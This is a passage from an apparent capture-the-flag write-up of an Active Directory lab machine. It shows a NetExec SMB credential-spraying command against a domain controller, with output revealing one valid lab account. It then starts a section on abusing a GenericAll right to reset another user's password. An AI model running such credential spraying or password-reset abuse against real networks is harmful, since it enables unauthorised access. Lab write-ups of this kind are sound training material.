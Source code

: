 I test these credentials with `NetExec` over SMB.

```bash
# nxc smb DC.puppy.htb -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE
```

The scan revealed only one valid account:
`ant.edwards:Antman2025!`

# Changing `adam.silver`'s password

`ant edwards`, through the `Senior Devs` group, hash the `GenericAll` right over `adam.silver`.

![](img/senior_devs.png)
